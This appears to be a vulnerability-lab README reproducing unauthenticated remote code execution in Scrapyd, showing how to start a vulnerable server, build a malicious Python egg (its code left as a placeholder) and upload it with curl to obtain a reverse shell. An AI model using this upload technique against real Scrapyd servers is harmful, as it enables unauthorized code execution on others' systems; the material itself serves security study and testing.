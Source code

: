# Scrapyd Unauthenticated Remote Code Execution

Scrapyd is an application for deploying and running Scrapy spiders. It enables user to deploy (upload) your projects and control their spiders using a JSON API.

References: <https://www.leavesongs.com/PENETRATION/attack-scrapy.html>

## Start server

Execution the following command to start a scrapyd server:

```bash
docker-compose up -d
```

After scrapy is deployed, the server is listening on `http://your-ip:6800`.

## Reproduce

Build a evil egg archive:

```bash
pip install scrapy scrapyd-client
scrapy startproject evil
cd evil
# edit evil/__init__.py, add evil code
scrapyd-deploy --build-egg=evil.egg
```

Upload evil egg to the scrapyd server:

```bash
curl http://your-ip:6800/addversion.json -F project=evil -F version=r01 -F egg=@evil.egg
```

reverse shell is available:

![](1.png)
